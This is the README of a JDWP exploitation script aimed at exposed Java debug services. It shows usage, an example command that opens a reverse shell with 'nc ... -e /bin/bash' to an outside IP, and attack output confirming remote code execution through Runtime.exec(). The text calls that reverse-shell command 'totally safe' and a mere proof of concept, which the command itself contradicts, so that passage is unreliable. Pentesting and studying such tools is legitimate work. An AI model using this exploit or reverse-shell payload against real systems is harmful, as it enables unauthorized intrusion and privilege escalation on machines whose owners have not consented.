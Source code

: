 # JDWP exploitation script

## What is it ?
This exploitation script is meant to be used by pentesters against active JDWP service, in order to gain Remote Code Execution.

## How does it work ?
Well, in a pretty standard way, the script only requires a Python3 interpreter:
```shell
usage: jdwp-shellifier.py [-h] [-t IP] [-p PORT] [--break-on JAVA_METHOD] [-c COMMAND]

Universal exploitation script for JDWP

options:
  -h, --help            show this help message and exit
  -t IP, --target IP    Remote target IP (default: 0.0.0.0)
  -p PORT, --port PORT  Remote target port (default: 8000)
  --break-on JAVA_METHOD
                        Specify full path to method to break on (default: java.net.ServerSocket.accept)
  -c COMMAND, --cmd COMMAND
                        Specify command to execute remotely (default: None)
```

By default, it targeted the `0.0.0.0` IP and `8000` port.
	
This command will only inject Java code on the JVM and show some info like Operating System, Java version. Since it does not execute external code/binary, it is totally safe and can be used as Proof-Of-Concept.
```shell
python3 jdwp-shellifier.py -c "/bin/busybox nc 192.168.45.178 443 -e /bin/bash"
``` 

This command will actually execute the process with the specified argument **with the rights given to the running JVM**. Thus, if it was ran by `root`, you'll basically get a low-hanging fruit Privilege Escalation.

Output will looks like:
```shell
[+] Target: 0.0.0.0:8000
[*] Trying to connect...
[+] Connection successful!
[+] Handshake sent
[+] Handshake successful
[*] Requesting ID sizes from the JDWP server...
        • fieldIDSize: 8
        • methodIDSize: 8
        • objectIDSize: 8
        • referenceTypeIDSize: 8
        • frameIDSize: 8
[+] ID sizes have been successfully received and set.
[*] Requesting version information from the JDWP server...
        • description: Java Debug Wire Protocol (Reference Implementation) version 11.0
JVM Debug Interface version 11.0
JVM version 11.0.16 (OpenJDK 64-Bit Server VM, mixed mode, sharing)
        • jdwpMajor: 11
        • jdwpMinor: 0
        • vmVersion: 11.0.16
        • vmName: OpenJDK 64-Bit Server VM
[+] Version information has been successfully received and set.
[+] Found Runtime class: id=0x8b1
[+] Found Runtime.getRuntime(): id=0x7f2ae8023998
[+] Created break event id=0x2
[+] Resume VM signal sent
[+] Waiting for an event on 'accept'
[*] Go triggering the corresponding ServerSocket (e.g., 'nc ip 5000 -z')
[+] Received matching event from thread 0x94d
[+] Payload to send: '/bin/busybox nc 192.168.45.178 443 -e /bin/bash'
[+] Command string object created id:94e
[+] Runtime.getRuntime() returned context id:0x94f
[+] Found Runtime.exec(): id=7f2ae80239d0
[+] Runtime.exec() successful, retId=950
[+] Resume VM signal sent
```

Before sending questions, make sure to read http://blog.ioactive.com/2014/04/hacking-java-debug-wire-protocol-or-how.html for full understanding of the JDWP protocol. 

## Thanks
* Ilja Van Sprundel
* Sebastien Macke





